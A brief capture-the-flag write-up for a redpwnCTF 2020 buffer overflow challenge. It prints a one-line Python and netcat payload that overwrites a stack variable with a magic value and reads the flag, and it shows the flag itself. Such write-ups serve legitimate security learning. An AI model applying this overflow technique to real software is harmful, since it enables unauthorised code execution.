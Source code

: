 # Coffer Overflow 1
Points: 282
## Category
Pwn
## Problem Statement
The coffers keep getting stronger! You'll need to use the source, Luke.\
nc 2020.redpwnc.tf 31255\
Attachment : "coffer-overflow-1" and "coffer-overflow-1.c"
## Solution
* We followed [CTF101 buffer overflow](https://ctf101.org/binary-exploitation/buffer-overflow/).
* It just check if a variable had some specific value.
* `python -c 'print("\x00"*24+"\xbe\xba\xfe\xca\x00\x00\x00\x00");print("cat flag.txt")' | nc 2020.redpwnc.tf 31255`
## Flag
```
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```